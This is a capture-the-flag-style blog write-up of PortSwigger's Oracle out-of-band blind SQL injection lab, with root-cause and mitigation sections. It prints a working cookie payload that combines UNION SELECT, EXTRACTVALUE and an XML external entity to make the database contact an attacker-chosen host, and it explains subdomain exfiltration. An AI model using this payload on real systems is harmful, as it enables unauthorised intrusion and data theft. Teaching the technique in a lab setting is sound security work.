


---
# ============================================================================
#  YAZI AYARLARI (front matter) — "---" çizgilerini SİLME.
#  NOT: Önizleme konteynerinin saati UTC; date satırını günün erken bir
#       saatine koy (ör. 09:00 +0300) yoksa "gelecek tarih" sayılıp yayınlanmaz.
# ============================================================================

title: "Blind SQL injection with out-of-band interaction"   # Yazı başlığı (tırnak içinde)
description: "PortSwigger's OAST lab on Oracle: when the response is completely silent, make the database call home. An EXTRACTVALUE + external-entity payload forces a DNS lookup to Burp Collaborator — plus how to solve it without Burp Suite Professional."   # Tek cümlelik özet; kartta ve Google'da görünür

date: 2026-11-25 09:00:00 +0300                  # Yayın tarihi (ileri tarih verirsen yazı yayınlanmaz)

categories: [Web Security]                       # _data/categories.yml içindeki alanlardan biri (renk buradan gelir)
tags: [portswigger, sql-injection, blind-sqli, oast, out-of-band, oracle, burp-suite, practitioner]   # Serbest etiketler (küçük harf, boşluksuz)

platform: PortSwigger Web Security Academy       # Üst bilgide "Platform" olarak görünür
difficulty: Practitioner                         # Apprentice / Practitioner / Expert (renkli seviye rozeti)

# --- Kapak görseli ---------------------------------------------------------
# Tüm SQL injection yazıları aynı kategori kapağını paylaşır.
image:
  path: /posts/images/sql-injection-cover.webp
  alt: "Blind SQL injection with out-of-band interaction — lab cover"

# --- Güncelleme tarihi (İSTEĞE BAĞLI) --------------------------------------
# last_modified_at: 2026-11-25 09:00:00 +0300
---

<!-- ==========================================================================
     NASIL DÜZENLERİM? (bu blok ekranda GÖRÜNMEZ, sadece sana not)

     Köşeli parantezli [...] yerleri kendi cümlelerinle (İngilizce) değiştir.

     BAŞLIK:  ## / ###    METİN: **kalın** *italik* `kod`    LİSTE: "- " / "1. "
     LİNK:    [metin](https://adres)      TUŞ: <kbd>Ctrl</kbd> + <kbd>R</kbd>
     GÖRSEL:  
              - Yol /posts/images/... ile başlar; tırnaktaki metin alt açıklama olur
              - Dosya adlarına laba özel önek ver (sqli-oob-...), yoksa çakışır
              - DİKKAT: görsel açıklamasında "|" (pipe) KULLANMA; tablo sanılır
     KOD:     ```sql ... ```  (diller: http, bash, sql, text)
     KUTULAR: satır altına {: .note} / {: .tip} / {: .warn}
========================================================================== -->

## Overview

Every blind lab so far needed the application to leak *something* back to us — a message, a `500`, an error string, a slow response. But what if the injection is so well buried that none of those work? The query might run in a background thread whose result is never used, errors might be swallowed, and even a timing attack can be unreliable on a busy server.

There's still a way out, and it's the sneakiest one in the toolkit: **don't wait for the application to talk to you — make the database talk to a server *you* control.** If you can coax the backend into performing a DNS or HTTP request to your own domain, then the simple fact that the request *arrives* proves your SQL executed. This is **out-of-band (OAST — Out-of-band Application Security Testing)** interaction, and it works even against a completely silent endpoint.

This instance is **Oracle**, so we abuse a quirk where Oracle's XML functions will resolve an **external entity** — effectively an XXE triggered through SQL injection — to fire the outbound request.

> Only test on systems you own or are explicitly authorised to test, such as PortSwigger Web Security Academy labs.
{: .warn}

## The lab

**Goal:** The tracking cookie is vulnerable to SQL injection, but the query is executed asynchronously and has no effect on the response — it's fully blind. Exploit it to cause a **DNS lookup to Burp Collaborator** (an external server). That lookup alone solves the lab.



## Exploitation — making Oracle call home

The injection point is the familiar `TrackingId` cookie. The trick on Oracle is to concatenate a `UNION SELECT` that calls `EXTRACTVALUE` on an XML document we supply. That document declares an **external parameter entity** whose `SYSTEM` identifier is a URL; when Oracle parses the XML, it tries to fetch that URL — producing the out-of-band request.

Intercept the request in Burp and replace the cookie with the payload (URL-encoded in the cookie, decoded below for readability):

```sql
TrackingId=abc' UNION SELECT EXTRACTVALUE(xmltype(
  '<?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote; ]>'
),'/l') FROM dual--
```



Breaking the payload down:

- **`xmltype('...')`** — parses our string as an XML document inside the database.
- **`<!ENTITY % remote SYSTEM "http://...">`** — declares an external entity that points at our server. The `%` makes it a *parameter* entity (resolved during DTD parsing).
- **`%remote;`** — references the entity, forcing Oracle to resolve its `SYSTEM` URL — i.e. make an HTTP/DNS request to our domain.
- **`EXTRACTVALUE(..., '/l')`** — the function that actually evaluates the XML; the XPath `/l` is irrelevant, it's just there to make the call valid.
- **`FROM dual`** — Oracle requires a `FROM`; `dual` is its built-in dummy table.

Forward the request. As soon as Oracle parses the XML and resolves the external entity, it performs a DNS lookup for the Collaborator domain — and the lab registers that interaction as the solve:


## Doing this without Burp Suite Professional

Normally you'd use **Burp Collaborator**, which is a **Professional-only** feature. In Pro you click *Copy to clipboard* in the Collaborator tab to get a **unique subdomain** (e.g. `random123.oastify.com`), paste it into the payload, and then the **Collaborator client** shows you every DNS/HTTP hit — with timestamp, source IP, and type. That's how you both *confirm* the interaction and, in richer attacks, *exfiltrate data* (by smuggling a value into the subdomain and reading it back).

On **Community edition** there's no Collaborator and no client. For *this* lab I simply put the bare public domain **`burpcollaborator.net`** into the payload — and it counted as solved.

{: .note}
> **Why the bare domain works here:** this lab's only success condition is "a DNS lookup to the Collaborator domain happened." PortSwigger's lab backend watches its own outbound DNS, sees the Oracle server resolve `burpcollaborator.net`, and flips the lab to solved. I never *see* the interaction myself — there's no unique subdomain and no client — but the lab confirms it server-side.

{: .warn}
> **Why this is a lab-only shortcut:** in a real engagement the bare domain is useless. You don't own `burpcollaborator.net`, so you can't read its logs, and with no unique subdomain you couldn't correlate *which* target or payload fired. You'd also be unable to **exfiltrate** anything — the whole point of the next lab. For real out-of-band work without Burp Pro, use a tool you actually control:
> - **interactsh** (ProjectDiscovery) — free, gives unique subdomains and a client that shows interactions; public servers or self-hosted.
> - **Self-hosted Burp Collaborator** — run your own Collaborator server on a domain you own.
> - A **VPS with authoritative DNS logging** (or a public DNS logger) when you just need to see lookups.

## Root cause

Two layers combine. First, the usual sin — the cookie is concatenated into the query, so a `'` breaks out:

```sql
-- Vulnerable: the cookie value is pasted into the query
"SELECT * FROM tracking WHERE id = '" + trackingId + "'"
```

Second, the Oracle database is allowed to **parse attacker-controlled XML that resolves external entities** and to **make outbound network connections**. Even though the query result never touches the HTTP response, the database reaching out to an external host is an observable side effect — and that's all an out-of-band attack needs.

## Mitigation

- **Parameterized queries** remain the root fix — a bound cookie value can never break out into a `UNION SELECT`.

```sql
-- Safer: the value is bound, not concatenated
SELECT * FROM tracking WHERE id = ?
```

- **Disable external entity resolution.** The XXE half of this attack dies if the XML parser (here, Oracle's) is configured to refuse external entities.
- **Block outbound traffic from the database.** A DB server has no business making arbitrary DNS/HTTP requests to the internet; egress filtering stops the out-of-band channel even if injection slips through.
- **Least privilege** so the injected query can't reach functions and tables it has no legitimate need for.

## Key takeaways

- When an endpoint leaks **nothing** — no content, no error, no reliable timing — **out-of-band (OAST)** is the escape hatch: make the database contact a server you monitor, and the interaction itself is the proof.
- On Oracle, `EXTRACTVALUE(xmltype(... external entity ...))` turns SQL injection into an XXE that fires a DNS/HTTP request.
- **Burp Collaborator is a Pro feature.** This lab can be solved with the bare `burpcollaborator.net` domain because the lab detects the lookup server-side — but that won't work in the real world; use **interactsh** or a self-hosted Collaborator when you need to actually observe or exfiltrate.
- The fix is layered: parameterized queries, disabled external entities, and database egress filtering.
